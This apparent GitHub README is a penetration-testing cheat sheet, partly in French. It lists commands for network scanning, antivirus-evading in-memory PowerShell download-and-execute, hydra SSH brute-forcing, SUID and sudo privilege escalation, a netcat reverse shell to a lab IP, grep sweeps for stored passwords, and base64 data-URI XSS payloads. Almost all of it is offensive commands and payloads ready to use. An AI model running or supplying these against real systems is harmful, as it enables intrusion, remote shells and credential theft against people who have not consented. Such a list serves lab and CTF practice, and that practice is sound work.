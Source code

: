 # tools
few scripts and useful commands

# scan
<ul>
<li>netdiscover -r 192.168.10.130/24</li>
<li>nmap -A -sS 192.168.10.135</li>
<li>nikto -h http://192.168.10.135/site</li>
<li>wapiti http://192.168.10.134/site</li>
<li>wordpress : wpscan --url http://192.168.10.135/site</li>
</ul>

# windows
<p>run ps1 script in memory (bypass antivirus) :</p>
<ul>
<li>powershell IEX (New-Object Net.WebClient).DownloadString('http://ip:85/test.ps1')</li>
<li> C:\Windows\Sysnative\WindowsPowerShell\v1.0\powershell.exe ping ip </li>
</ul>

# bruteforce
<ul>
<li>hydra -l user -P wordlist.txt 192.168.10.130 ssh</li>
</ul>
<p>generate wordlist from a password with 2 missing characters :</p>
<ul>
<li>crunch 7 7 -t passwo^% >> wordlist.txt</li>
</ul>

# privesc

<ul>
<li>https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py</li>
<li>find / -perm -u=s -type f 2>/dev/null</li>
<li>find / -perm +6000 2> /dev/null</li>
<li>https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/</li>
<li> Get a better shell if msf payload is weak (ex: python/reverse_shell) : http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet </li>
<li> List rights : sudo -l </li>
<li> Example with /bin/ed : sudo /bin/ed => !/bin/bash => id </li>
<li>https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs</li>
<li>ps -ax</li>
<li>https://gtfobins.github.io/</li>
</ul>

# shell

<p>LFI</p>
<ul>
<li>/bin/nc 192.168.91.1 1234 -e /bin/sh /bin</li>
<li> https://resources.infosecinstitute.com/local-file-inclusion-code-execution/#gref </li>
<li> https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md </li>
</ul>

# post-exploitation
<ul>
<li> grep -air --include=*.txt ou .json ou .sh password ou mot de passe </li>
<li> grep -air --include=*.txt "mot de passe" </li>
<li> grep -air --include=*pass* ""</li>
<li>https://matthew-brett.github.io/curious-git/reading_git_objects.html</li>
</ul>

# xss
<ul>
<li> " style="background-image: url(http://blabla.com) </li>
<li> https://developer.mozilla.org/fr/docs/Web/HTTP/Basics_of_HTTP/Data_URIs </li>
<li> &lt;object data=data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+>&lt;/object> </li>
<li> &lt;object data=http://blabla.com>&lt;/object> </li>
<li> data:text/javascript,alert(0) </li>
<li> data:text/javascript;base64,YWxlcnQoMCk= </li>
</ul>

